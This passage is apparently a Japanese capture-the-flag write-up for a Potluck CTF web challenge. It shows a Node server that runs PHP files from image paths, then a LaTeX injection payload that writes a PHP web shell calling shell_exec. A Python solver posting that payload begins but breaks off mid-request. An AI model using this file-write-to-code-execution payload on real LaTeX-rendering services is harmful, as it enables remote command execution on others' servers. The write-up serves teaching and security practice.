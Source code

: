 ```js
...
import php from "http-php";
...
app.get(
  ["/static/*", "/images/*", "/frontend/build/*", "/php/*"],
  async (req, res) => {
    try {
      let p = path.join(__dirname, req.path);
      await fs.access(p);
      if (p.endsWith(".php")) {
        let php_res = await php({
          file: p,
          timeout: 1000,
          cwd: path.dirname(p),
          php: php_path,
        })(req);
        res.send(php_res.body || php_res.err);
      } else {
        res.sendFile(p);
      }
    } catch (e) {
      console.log(e);
      res.send("404 Not Found");
    }
  }
);
...
```

どうやら、`/static/*` や `/images/*` に該当するリクエストのうち、パスが `.php` で終端していれば `http-php` によって処理されるようです。

ここで、以下の文字列を `renderLaTeX.php` に POST することで、`/app/images/<ランダムな文字列>/solve.php` に `<?php echo shell_exec('/app/readflag');?>` を書き込みます。

```latex
1+1$

\newwrite\myfile
\immediate\openout\myfile=solve.php
\immediate\write\myfile{<?php echo shell_exec('/app/readflag');?>}
\immediate\closeout\myfile

$1+1
```

このリクエストに対するレスポンスとして得られたランダムな文字列を利用し、`/images/<ランダムな文字列>/solve.php` にアクセスすると、`http-php` によって処理されるリクエストの条件が全て満たされるため `shell_exec('/app/readflag')` が実行され、Flag が得られました。

ソルバーは以下の通りです。

```python
import requests

URL = "http://challenge15.play.potluckctf.com:31337"

payload = r"""1+1$

\newwrite\myfile
\immediate\openout\myfile=solve.php
\immediate\write\myfile{<?php echo shell_exec('/app/readflag');?>}
\immediate\closeout\myfile

$1+1
"""

res = requests.post(URL + "/images/renderLaTeX.php", 
```